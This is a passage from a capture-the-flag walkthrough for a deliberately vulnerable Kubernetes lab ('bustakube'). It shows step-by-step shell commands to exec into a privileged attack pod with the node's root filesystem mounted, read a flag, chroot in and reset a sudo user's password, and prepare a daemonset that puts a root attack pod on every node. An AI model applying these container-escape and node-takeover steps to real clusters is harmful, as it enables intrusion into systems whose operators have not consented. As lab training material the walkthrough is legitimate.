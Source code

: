 76. Let's go attack the node where that pod is running – you'll need to wait for the pod to be `Running`:

    ```shell
    kubectl exec -it attack-pod -- /bin/bash
    ```

77. Now we're in a container, in a pod that we designed, on one of the cluster nodes.  Find out which one:

    ```shell
    cat /mnt/etc/hostname
    ```

78. The `/mnt` directory in this container is the `/` directory on this node.  Let's look for a flag.

    ```shell
    ls /mnt
    ```

79. Grab a flag:

    ```shell
    cat /mnt/FLAG.txt
    ```

80. User `bustakube` has `sudo` rights on this node.  Let's change their password.

    ```shell
    chroot /mnt /bin/bash
    passwd bustakube
    bustakube
    bustakube
    exit
    ```

81. Now leave this `kubectl` exec, so that you're back in the Redis pod.

    ```shell
    exit
    ```

82. Confirm for yourself that you're in the redis pod by running `hostname`:

    ```shell
    hostname
    ```

83. Let's put an attack pod on every node in the cluster (including the control plane node). We'll use a daemonset. Take a look at its contents via:

    ```shell
    cat daemonset-attack.yaml
    ```

84. Note that this daemonset defines a pod that it will place on every node.  The pod has a container called `attack-root`.
